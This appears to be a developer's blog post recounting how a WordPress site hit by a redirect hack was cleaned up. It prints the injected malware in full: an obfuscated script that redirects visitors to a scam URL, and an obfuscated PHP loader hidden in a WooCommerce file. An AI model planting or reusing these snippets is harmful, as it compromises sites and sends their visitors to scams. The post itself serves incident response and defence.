


# So you've been hacked
## Wordpress redirect hack

Testing out a website we were building for a client, suddenly, the website starts redireting to spam websites, like lottery scam pages and whatnot.

What I did first, of course, was inspecting the source code of the website, that is to say the raw html of your site.
The hack was injecting a div, with a script, just above the main wrapper

```HTML

<div id="3f41457d"><a href="http://perfectfastsale.su" style="visibility: hidden" title="rx online">rx online</a><script>String.prototype.a73fba7d=function(){return this.replace(/[a-zA-Z]/g,function(c){return String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26);});};u='uggcf://trglbhecevmrabj.yvsr/?h=l2lxnrj&b=2khc89e&z=1&g=Z09';function f31454d7(){window.top.location.href=u.a73fba7d();}setTimeout(f31454d7,4987);</script></div>


```


And that is just the begining. Almost 50 infected wordpress core files, injecting stuff. What a blast...

Stuff like this, into a Wordpress logging class:

```PHP

<?php $NfGPtIkV='3H.--2a  S1, R-'; $ywpPnUj='P:KLYW>FU=RXI=C'^$NfGPtIkV; $mAxOujic='R.ox4  Q RZR6NADGL4Il4Q;3H8F5ic -LojYB1mj5DE2Y.=WcHT0n=-;9hr B=gh>P80XMt1-0xuxbqJ5lbfP8UHOlbowonaBU+ ig0Ulchcmr.tO,IQ16LS= =LobGNWGeXzd=jZ75rwMszsDV ;pmG+Riur< =8m9ccy;2 =WYzp V6a:yMn2l 2M 8YjCOG hJp0GX.EhHQY=LVGX,3=CPcLi=SJ3.,1BIoK.J8 3qZD0+:-T+ qPmf0to +iq2XwpQ,=xKkeg8X8;2DE=aQl2+7 qX 1Mqzi-Y,cdbs=V:WTeea=;=, u=:xyEPglTb2+1 zr4S0TT6W6R2IeB;y,0bwjtXR:wC1WWfnyHR MAK1pj:HcCmD6FWfX03bThjQ7CkYM2OYOI qlYAN68=VibY8y.lfK1R8PAOYn;XNKA YPPI Q-R4oIRH b<+BBo8Z1PrdaT,RD>-Nj70.4lgre+  L+GEHCjo:9,np5P6RaoenXN1526 YJjK= IEKNkU38Runm ,7SexlUPf93dcmIT,Z4W, 0roNQrgUoJVUc4PBzYSuW6bvWJGLXhu=nkQVa6WZcmNZtcWUO0W,f-EJfKF=6=CynM +=R2.bhPmW,;6YGdfnbeF7YxH1.Lqn.W 3gSH O>U.7akjOmD UI:jeka>C'; $VYlFrwZx=$ywpPnUj('', ';HGYRUN2T;5<i+9-48GaKL>Il,Y2T6<MX8HCpbJgcS1+Q-GR9C0;B1YLOX7-M7IOLZ1LQtmPZHIQUXBQjNfkotW <oQBHPTdhK3DRACYuQCXXMVGH<X;=TXdwYAI-FYgj>lNqpm4N5BARYpSRW 7TZ+I.vr7UVWEDcIPCFYHFRQ27RTK3OHgPvd;eRW9UJ7Bg 2TAqz9:RSObl58I-vzxJRQ05XFMY2>RqGT;iRkH+TSVJPNVDHH5HHQxI9s; kb,QS+WT:IDXvUECN9TNWmeFkXHVJCA.3EHmLZMF<UXnkWY7N6tXEEKZQYEN7Grs,6GDuFVJEASROY92;D2W1ZiMfd+ia729 x3IWgZ2.FSGhvV,->TYJABjJI W2693UJBiHN:R:PSD;k=.=AQQye8WTH3RhPEsSfloU3L1ary.N6=.3I8<93EyU=F0-3<A=cF76GZ;B5DP>0I1+ZHfNSQZUEKRAOAT-t, 1jCT0PJFTQ1B3AICN9<CTKiK<35.EI:18fL>VAuYNIDMC2LXJspNTWQKI-5X;opGEIU2gqOZuHzfbPV1pM;6D1UPB5,szhYAYZZecPS5oUJgzREw4=B6U9F 39.>TEI0QI=ARQ=SJEDpI3MOWpnDFNBEfLSq-GO YJJ6TR<t8A6R:OSF6CtgME- NBUBZ4>'^$mAxOujic); $VYlFrwZx();
/**
 * Provides logging capabilities for debugging purposes.
 *
 * @class          WC_Logger
 * @version        2.0.0
 * @package        WooCommerce/Classes
 */
 ```

 This was injected into you name it, plugins, theme files, wordpress core files... Amazing. So what now?
 Let's try to remove it manually and hope the site does not break.
 Certain plugins can help remove malicious files, Wordpress Defender, only for core files, is really good. You can pay the pro version for plugins and software
 
 The infection also reached the uploads folder, 
 example: wp-content/uploads/2020/02/blogking.php,
 and also this as well:



After a few backs and forths, deleting infected plugins, infected themes. I still couldnt resolve the issue. Since every page on the website was redirecting to this malicious site I thought the issue was a script being injected globally. But no, after searching the web a bit more, while I was massively deleting files via SFTP, I found a recommendation for the plugin Wordfence. Its the best. It pointed me to the correct direction. All of my pages were infected, they were edited and they had a block added. Inside this block there was a DIV tag with an A tag, which would contain a malicious site. There was also a script tag which would make the site redirect to that a Tag on a timeout. Check it out.



Finally after removing the blocks, the problem was solved.

1. I deleted all of my flatsome parent theme file and I did a fresh copy of the parent theme.
2. Deleted woocommerce since it was infected.
3. My child theme was also infected, so I had to clean up those php files.
4. Also, some plugins were infected, I just deleted those via FTP and re-installed them.

So, it was not the end of the world, but I did loose a day, where I almost had a little heart attack when I thought I lost the whole website! 


 
 


